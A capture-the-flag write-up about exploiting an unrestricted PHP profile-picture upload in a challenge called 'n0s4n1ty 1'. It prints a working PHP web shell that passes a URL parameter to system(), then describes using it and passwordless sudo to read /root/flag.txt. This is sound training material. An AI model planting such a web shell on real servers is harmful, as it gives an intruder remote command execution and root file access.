




In this writeup, I’ll walk through my approach to exploiting a file upload vulnerability in the `n0s4n1ty 1` challenge. 
The task was to leverage a poorly secured file upload feature to ultimately retrieve a hidden flag stored in the server’s /root directory.

It is a web application that allows us to change the profile picture. By reading the URL, I noticed that it is `php`. So, I immediately thought, *“What if I upload a php file?”*.
```
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $cmd = $_GET['cmd'];
    system($cmd);
    echo "</pre>";
}
?>
```
Once the file was uploaded, I was redirected to a page saying that the file test.php was uploaded to the `/uploads` directory. So, I visited the page `/uploads/test.php`:
To confirm that the shell was operational, I ran the `whoami` command by navigating to a URL similar to:

I discovered that I am the www-data. Since I don’t think this is a privilege escalation challenge, I ran `sudo -l` to check the permissions associated with my user:

And as we can see, no password is required to use the sudo command. So, I tried accessing `/root` to see its contents by running sudo `ls /root:`

And as we can see, I was able to access it, and inside there’s only the flag.txt file. So, I ran `sudo cat /root/flag.txt` to read the contents of the file and consequently retrieve the flag.

